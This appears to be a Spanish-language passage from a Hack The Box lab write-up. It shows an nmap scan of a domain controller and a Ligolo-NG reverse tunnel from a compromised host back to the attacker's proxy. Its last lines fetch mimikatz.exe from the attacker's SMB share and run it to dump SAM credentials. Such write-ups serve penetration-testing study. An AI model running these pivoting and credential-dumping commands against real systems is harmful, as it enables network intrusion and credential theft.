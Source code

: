```bash
5985/tcp open  unknown

Nmap scan report for 192.168.3.203
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  loc-srv
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  unknown
```

Para establecer una conexión desde nuestro equipo, podemos emplear Ligolo-NG junto con el agente para acceder a nuestro sistema a través del puerto 11601 designado por el proxy. Una vez en el proxy, procedemos a obtener y señalar una sesión específica, para luego iniciar el túnel mediante el comando "start".

```bash
root@default:~# ./agent -connect 10.10.14.10:11601 -ignore-cert &
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established                 addr="10.10.14.10:11601"  
```

``` bash
❯ ./proxy -selfcert
WARN[0000] Using automatically generated self-signed certificates (Not recommended)  
INFO[0000] Listening on 0.0.0.0:11601
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

Made in France ♥ by @Nicocha30!

ligolo-ng »
INFO[0005] Agent joined.               name=root@default remote="10.13.38.16:49747"
ligolo-ng » session
? Specify a session : 1 - root@default - 10.13.38.16:49747
[Agent : root@default] » start
INFO[0021] Starting tunnel to root@default
[Agent : root@default] »
```

Hemos incorporado el segmento 192.168.3.0/24 a la interfaz de Ligolo, lo que nos permite establecer conexión con todos los equipos dentro del dominio. Podemos verificar esta conexión mediante el uso del comando ping.


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>